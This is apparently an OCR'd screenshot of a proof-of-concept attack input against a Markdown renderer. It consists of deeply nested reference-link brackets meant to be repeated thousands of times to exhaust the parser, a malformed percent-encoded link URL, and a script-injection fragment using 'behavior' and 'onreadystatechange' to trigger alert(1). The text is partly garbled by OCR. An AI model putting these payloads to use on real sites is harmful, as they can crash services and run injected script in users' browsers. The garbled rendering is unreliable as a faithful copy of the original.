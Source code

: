 
[[[[[[[[[[[[[[[[][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]

[[[[[[[[[[[[[[[[][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]
[l]:http://dwq%252f%ff

[[[[[[[[[[[[[[[[][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]
repeat 2000 times or more (or copy from attached file)
[[[[[[[[[[[[[[[[][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]][l]
[l]:t = 'style =' behavior: (?) ur2 'onreadystatechange =' alert (1)

